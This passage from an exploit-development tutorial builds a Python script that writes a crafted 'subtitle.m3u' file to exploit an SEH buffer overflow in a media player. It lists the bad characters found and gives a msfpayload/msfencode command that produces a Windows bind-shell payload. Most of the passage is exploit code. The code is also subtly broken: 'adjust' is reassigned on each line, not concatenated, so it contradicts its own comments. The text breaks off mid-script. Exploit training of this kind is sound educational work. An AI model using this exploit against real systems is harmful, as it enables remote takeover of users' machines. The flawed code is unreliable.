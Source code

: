 
exploit = junk + nseh + seh + adjust + buffer + junk2
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()

Yep thats the one. So we also can add \x0d to our list of bad characters. There are no more bad characters for that line so you can place the remaining characters from that line back and you should see them all appear in memory correctly.

#!/usr/bin/python
junk  = "\x41" \* 4078
nseh = "\x61\x62"
seh = "\xeb\x46" \* 2
adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
             # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....
buffer = "\x62" \* 12
junk2  =  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0d\x0e" 

exploit = junk + nseh + seh + adjust + buffer + junk2
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()

This should now work with all characters appearing correctly in memory. Repeat this process for each line that I pasted above. You should generate the following list of bad characters:

*   \x00
*   \x0a
*   \x0d
*   \x1a
*   \x3a
*   \x5c
*   \x80

### Generating The Bind Shell

To generate the bind shell we could use msfvenom. However I found it kept on including the bad characters in my final payload. So I decided to do it the old way (aka the way I like to do it :P ) :

msfpayload windows/shell/bind\_tcp R | msfencode -a x86 -b "\x00\x0a\x0d\x1a\x3a\x5c\x80" -t c

This should generate you shellcode. Copy and paste it into a new file and search through it for each of the bad characters to double check that none of them slipped through. If all is good, make a new section in the code for this shellcode:

#!/usr/bin/python
junk  = "\x41" \* 4078
nseh = "\x61\x62"
seh = "\xeb\x46" \* 2
adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
             # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....
buffer = "\x62" \* 12